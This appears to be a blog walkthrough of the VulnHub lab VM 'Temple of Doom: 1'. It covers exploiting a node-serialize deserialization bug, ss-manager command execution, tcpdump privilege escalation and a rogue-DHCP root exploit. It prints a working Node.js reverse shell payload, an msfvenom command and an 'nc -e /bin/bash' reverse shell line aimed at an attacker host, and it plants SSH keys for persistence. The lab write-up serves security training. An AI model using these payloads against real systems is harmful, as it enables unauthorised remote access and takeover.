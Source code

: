 ```yaml
---
layout: post
date: 2018-08-26 18:15:47 +0000
last_modified_at: 2018-08-27 11:21:25 +0000
title: "Temple of Doom: 1 Walkthrough"
subtitle: "I'm No Indiana Jones"
category: Walkthrough
tags: [VulnHub, "Temple of Doom"]
comments: true
image:
  feature: temple-of-doom-1-walkthrough.jpg
  credit: PublicDomainPictures / Pixabay
  creditlink: https://pixabay.com/en/skull-bone-head-halloween-skeleton-18235/
---
```


This post documents the complete walkthrough of Temple of Doom: 1, a boot2root [VM][1] created by [@0katz][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You know it's a high quality VM when it's from [@Pink_P4nther](https://twitter.com/@pink_p4nther)'s homie, [@katz](https://twitter.com/@0katz).

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

`nmap` finds `22/tcp` and `666/tcp` open.

### Node.js Deserialization Bug

Let's pay `666/tcp` a visit and see what we can find there.

![50ad81b1.png](/assets/images/posts/temple-of-doom-1-walkthrough/50ad81b1.png)

Satan's temple is still under construction? Thank God :pray: I'm not going to hell any time soon.

Look what happens when I refresh the page.

![9f6cc22b.png](/assets/images/posts/temple-of-doom-1-walkthrough/9f6cc22b.png)

Look at the cookies storage.

![332df422.png](/assets/images/posts/temple-of-doom-1-walkthrough/332df422.png)

This is the `node-serialize` bug documented in [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941).

In any case, there's an easy way to exploit this vulnerability following the instructions [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

There's a slight difference though—I'm using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var reverse_shell = {
rce:function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "192.168.30.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); },
};

var serialize = require('node-serialize');
console.log(serialize.serialize(test));
```

Run `node rce.js` to get the serialized string output.

![87473663.png](/assets/images/posts/temple-of-doom-1-walkthrough/87473663.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to `base64` for encoding.

![398e3f8d.png](/assets/images/posts/temple-of-doom-1-walkthrough/398e3f8d.png)

Send the entire `base64` string as the `profile` cookie value to `http://192.168.30.129:666`. But before you do that, you want to set up your `nc` listener.

![0cfb9b07.png](/assets/images/posts/temple-of-doom-1-walkthrough/0cfb9b07.png)

As expected, the `nc` listener caught the reverse shell.

![fe9a4b46.png](/assets/images/posts/temple-of-doom-1-walkthrough/fe9a4b46.png)

You can see that `nodeadmin` is a regular user with its home directory at `/home/nodeadmin`; we can copy the SSH public key we control to `/home/nodeadmin/.ssh/authorized_keys` and log in through SSH. We get a more superior shell this way and `Ctrl-C` doesn't kill the shell. :smirk:

![9ca6cba5.png](/assets/images/posts/temple-of-doom-1-walkthrough/9ca6cba5.png)

Here's how to do that. First, generate the SSH keypair for `nodeadmin`.

![75c59205.png](/assets/images/posts/temple-of-doom-1-walkthrough/75c59205.png)

Next, create `/home/nodeadmin/.ssh` and echo the SSH public key to `authorized_keys`.

![8932e285.png](/assets/images/posts/temple-of-doom-1-walkthrough/8932e285.png)

Now, SSH into `nodeadmin`'s account.

### Command Execution in `shadowsocks-libev`

During enumeration of `nodeadmin`'s account, I notice `/usr/local/bin/ss-manager` is running as `fireman`.

![a2034971.png](/assets/images/posts/temple-of-doom-1-walkthrough/a2034971.png)

A quick search for "ss-manager" in Google led me to EDB-ID [43006](https://www.exploit-db.com/exploits/43006/). Listing the listening ports confirmed the command execution.

![5a264f18.png](/assets/images/posts/temple-of-doom-1-walkthrough/5a264f18.png)

A more liberal `nc` is also available for use in the VM.

![96d18f6d.png](/assets/images/posts/temple-of-doom-1-walkthrough/96d18f6d.png)

Armed with this knowledge, we can execute `nc` to give us a reverse shell as `fireman`.

![1119288b.png](/assets/images/posts/temple-of-doom-1-walkthrough/1119288b.png)

On our `nc` listener, a reverse shell returns as `fireman`.

![118e46df.png](/assets/images/posts/temple-of-doom-1-walkthrough/118e46df.png)

We can repeat the same SSH trick for `fireman`.

### Dangerous `tcpdump`

During enumeration of `fireman`'s account, I found the following.

![5c72e0cc.png](/assets/images/posts/temple-of-doom-1-walkthrough/5c72e0cc.png)

`tcpdump` in particular, can execute commands and run in another user's privilege with the `-z` and `-Z` options respectively.

Let's save `nc 192.168.30.128 1234 -e /bin/bash` into `/tmp/rev.sh` and make it executable.

![2202213b.png](/assets/images/posts/temple-of-doom-1-walkthrough/2202213b.png)

And execute `tcpdump` like so.

![c1ef1436.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1ef1436.png)

On the `nc` listener, a `root` shell returns.

![702d370f.png](/assets/images/posts/temple-of-doom-1-walkthrough/702d370f.png)

After repeating the SSH trick, getting the flag is trivial.

![9dfe8eb7.png](/assets/images/posts/temple-of-doom-1-walkthrough/9dfe8eb7.png)

:dancer:

### Afterthought

I wonder what's the second method for getting `root`? Could it be the exploitation of `abrt`?

I think I got it figured out. [CVE-2018-1111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1111) anyone?

The signs were there all this time.

![c1a0b34c.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1a0b34c.png)

There's a reason why `fireman` can `sudo` to execute `nmcli` and `iptables`. Even the source of the vulnerability is present.

![53cf80ea.png](/assets/images/posts/temple-of-doom-1-walkthrough/53cf80ea.png)

The proof-of-concept (PoC) code is so small it can fit inside a [tweet](https://twitter.com/Barknkilic/status/996470756283486209), with the help of `dnsmasq` of course.

Let's give it a shot!

In one terminal, I set up my attacking machine (192.168.30.128) as the rogue DHCP server with `dnsmasq`. In another terminal, I set up the `nc` listener to catch the reverse shell.

![6b69b4b4.png](/assets/images/posts/temple-of-doom-1-walkthrough/6b69b4b4.png)

Now, let's renew the VM's IP address with `nmcli`. My rogue DHCP server will respond to the VM's DHCP request with the injected command (`nc` to send `/bin/bash` over to me, i.e. a reverse shell) in the DHCP offer.

![42188e5c.png](/assets/images/posts/temple-of-doom-1-walkthrough/42188e5c.png)

A `root` shell returns.

![2de2fbdf.png](/assets/images/posts/temple-of-doom-1-walkthrough/2de2fbdf.png)

Below are the DHCP packets and the rogue DHCP offer captured in WireShark.

![7daab6b2.png](/assets/images/posts/temple-of-doom-1-walkthrough/7daab6b2.png)

![cb889f9c.png](/assets/images/posts/temple-of-doom-1-walkthrough/cb889f9c.png)


[1]: https://www.vulnhub.com/entry/temple-of-doom-1,243/
[2]: https://twitter.com/@0katz
[3]: https://www.vulnhub.com/
